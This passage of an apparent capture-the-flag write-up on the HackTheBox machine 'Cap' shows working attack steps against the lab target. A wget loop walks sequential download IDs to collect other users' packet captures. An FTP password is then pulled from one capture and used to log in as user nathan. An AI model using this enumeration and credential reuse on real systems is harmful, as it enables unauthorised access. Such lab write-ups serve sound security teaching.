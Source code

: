 I’ll add a `rm` at the end to remove the last failed download attempt. It
works:

    
    
    oxdf@parrot$ for i in {0..500} ; do wget 10.10.10.245/download/${i} -O pcaps/${i}.pcap 2>/dev/null || break; done; rm pcaps/${i}.pcap
    oxdf@parrot$ ls pcaps/
    0.pcap  1.pcap  2.pcap  3.pcap  4.pcap  5.pcap  6.pcap  7.pcap  8.pcap  9.pcap
    

### PCAP Analysis

In `0.pcap`, there are a few TCP streams. One is a GET request for what looks
like a PCAP analyzer site. The next two are the CSS and Favicon for that site.

Then there’s an FTP session containing a password for nathan (the same
username as the website):

![image-20210523112832362](https://0xdfimages.gitlab.io/img/image-20210523112832362.png)

### FTP

The password “Buck3tH4TF0RM3!” works to connect to FTP on Cap as nathan:

    
    
    oxdf@parrot$ ftp 10.10.10.245
    Connected to 10.10.10.245.
    220 (vsFTPd 3.0.3)
    Name (10.10.10.245:oxdf): nathan
    331 Please specify the password.
    Password:
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp>
    

`dir` shows only one file I can access:

    
    
    ftp> dir
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    -rw-------    1 1001     1001           33 May 15 21:40 user.txt
    226 Directory send OK
    

`ls -la` actually shows the FTP root is in what looks like a home directory:

    
    
    ftp> ls -la
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
    drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
    lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
    -rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
    -rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
    drwx------    2 1001     1001         4096 May 23 19:17 .cache
    -rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
    lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
    -r--------    1 1001     1001           33 Oct 02 07:24 user.txt
    226 Directory send OK.
    